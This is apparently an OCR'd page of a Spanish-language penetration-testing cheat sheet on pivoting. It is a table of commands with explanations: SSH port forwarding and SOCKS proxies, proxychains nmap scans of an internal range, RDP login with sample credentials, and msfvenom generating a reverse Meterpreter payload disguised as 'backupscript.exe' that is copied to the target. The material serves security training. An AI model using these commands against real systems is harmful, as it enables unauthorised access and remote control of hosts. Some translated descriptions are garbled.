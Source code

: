 | `ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@<IPaddressofTarget>`                                                                                                                                          | Comando SSH que indica al cliente ssh que solicite al servidor SSH que reenvíe todos los datos a través del puerto `1234` a `localhost:3306`.                                                                                                                                                         |
| `ssh -D 9050 ubuntu@<IPaddressofTarget>`                                                                                                                                                                           | Comando SSH utilizado para realizar un reenvío dinámico de puerto en el puerto `9050`y establece un túnel SSH con el objetivo. Esto es parte de la configuración de un proxy SOCKS.                                                                                                                   |
| `tail -4 /etc/proxychains.conf`                                                                                                                                                                                    | Comando basado en Linux utilizado para mostrar las últimas 4 líneas de /etc/proxychains.conf. Se puede utilizar para garantizar que las configuraciones de los calcetines estén en su lugar.                                                                                                          |
| `proxychains nmap -v -sn 172.16.5.1-200`                                                                                                                                                                           | Se utiliza para enviar el tráfico generado por un escaneo de Nmap a través de Proxychains y un proxy SOCKS. El escaneo se realiza contra los hosts en el rango especificado `172.16.5.1-200` con mayor verbosidad ( `-v`) deshabilitar el escaneo de ping ( `-sn`).                                   |
| `proxychains nmap -v -Pn -sT 172.16.5.19`                                                                                                                                                                          | Se utiliza para enviar el tráfico generado por un escaneo de Nmap a través de Proxychains y un proxy SOCKS. El escaneo se realiza contra 172.16.5.19 con mayor detalle ( `-v`), deshabilitar el descubrimiento de ping ( `-Pn`), y utilizando el tipo de escaneo de conexión TCP ( `-sT`).            |
| `proxychains msfconsole`                                                                                                                                                                                           | Utiliza Proxychains para abrir Metasploit y enviar todo el tráfico de red generado a través de un proxy SOCKS.                                                                                                                                                                                        |
| `msf6 > search rdp_scanner`                                                                                                                                                                                        | Búsqueda de Metasploit que intenta encontrar un módulo llamado `rdp_scanner`.                                                                                                                                                                                                                         |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123`                                                                                                                                                | Se utiliza para conectarse a un objetivo mediante RDP y un conjunto de credenciales mediante cadenas proxy. Esto enviará todo el tráfico a través de un proxy SOCKS.                                                                                                                                  |
| `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`                                                                                            | Utiliza msfvenom para generar una carga útil HTTPS Meterpreter inversa basada en Windows que enviará una llamada a la dirección IP especificada a continuación `lhost=` en el puerto local 8080 ( `LPORT=8080`). La carga útil tomará la forma de un archivo ejecutable llamado `backupscript.exe`.   |
| `msf6 > use exploit/multi/handler`                                                                                                                                                                                 | Se utiliza para seleccionar el módulo de explotación de múltiples controladores en Metasploit.                                                                                                                                                                                                        |
| `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`                                                                                                                                                               | Utiliza protocolo de copia segura ( `scp`) para transferir el archivo `backupscript.exe` al host especificado y lo coloca en el directorio de inicio del usuario de Ubuntu ( `:~/`).                                                                                                                  |